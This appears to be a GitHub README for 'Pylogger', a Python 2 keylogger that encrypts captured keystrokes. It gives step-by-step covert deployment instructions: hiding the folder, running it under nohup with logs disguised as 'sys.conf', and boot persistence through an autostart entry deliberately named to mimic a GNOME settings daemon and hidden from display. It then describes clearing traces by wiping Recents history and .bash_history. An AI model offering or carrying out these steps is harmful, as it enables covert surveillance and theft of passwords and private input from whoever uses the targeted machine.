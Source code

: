 # Pylogger
An advance keylogger built using python2 that supports encryption of logged keystrokes using password. 

## How to deploy the keylogger?
> Expected deploying time: 2 to 3 mins

- Put the entire folder deep in any directory
- Choose a location to store the output file (keystroke logs)
- The following command fires up the keylogger
```shell
nohup python /location/to/file/pylogger.py [YOUR PASSWORD] /different/location/for/output/sys.conf
```

### To automatically start the keylogger at boot time (in Ubuntu)
- Go to '/etc/xdg/autostart/'
- Create an [less suspicious] entry: 'org.gnome.SettingsDaemon.Sysconfig.desktop'
```shell
sudo gedit /etc/xdg/autostart org.gnome.SettingsDaemon.Sysconfig.desktop
```
- Write the following content in the file
```
[Desktop Entry]
Type=Application
Name=SystemConfig
Exec=nohup python location/to/python/script.py [PASSWORD] /different/location/for/output/sys.conf
NoDisplay=true
Comment=Helper program for starting system apps
X-GNOME-Autostart-enabled=true
```

### For security reason [clearing traces on the system]
- Remove entries from "Recents" ---> ubuntu recents [Settings > Privacy > History]
- Remove your commands from '.bash_history' file ---> terminal history

## License
```
MIT License

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

## Contributing to Pylogger
All pull requests are welcome!

